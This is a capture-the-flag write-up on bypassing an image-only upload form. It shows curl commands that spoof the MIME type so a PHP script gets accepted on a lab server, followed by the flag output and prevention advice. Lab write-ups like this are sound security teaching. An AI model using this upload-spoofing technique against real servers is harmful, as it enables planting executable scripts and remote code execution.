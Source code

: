 # Description

Visiting the upload page. We are allowed to upload only images.

But what if we can bypass this and upload a php script that can be executed and give us a reveres shell.

# Attack

We will try to use curl and upload a php script.

```bash
*[main][~/projects/darkly/File Upload Bypass/Ressources]$ curl -i -X POST -F "uploaded=@file.php" -F Upload=Upload "http://10.14.59.83/?page=upload" | grep Your
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2861    0  2532  100   329  2287k   297k --:--:-- --:--:-- --:--:-- 2793k
<pre>Your image was not uploaded.</pre>
```
As you see, we can upload the php script since there's server side check that checks for the uploaded type.

So what we are going to do is to change the upload type to the allowed uploading type but instead of giving in an image we will send a `file.php`

```bash
*[main][~/projects/darkly/File Upload Bypass/Ressources]$ curl -i -X POST -F "uploaded=@file.php;type=image/jpg" -F Upload=Upload "http://10.14.59.83/?page=upload" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3057    0  2743  100   314    547     62  0:00:05  0:00:05 --:--:--   720
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/file.php succesfully uploaded.</pre>
```

And we got the flag.


# Prevent
	- *File Type Validation:* Implement strict file type validation on the server side. Only allow uploading of specific file types that are necessary for your application. This validation should be based on both file extension and MIME type.

	- *Content Disposition:*Set the Content-Disposition header to ensure that uploaded files are treated as attachments rather than executable files. This prevents browsers from interpreting uploaded files as scripts.

	- *Rename Files:* Rename uploaded files to a secure format that does not include user-provided content or known extensions. This can prevent attackers from exploiting file name-based vulnerabilities.

	- *Server-Side Checks:* Perform server-side checks to ensure that the uploaded file is indeed an image file. Use libraries or tools designed for image validation to ensure that the file is not maliciously crafted to exploit vulnerabilities.
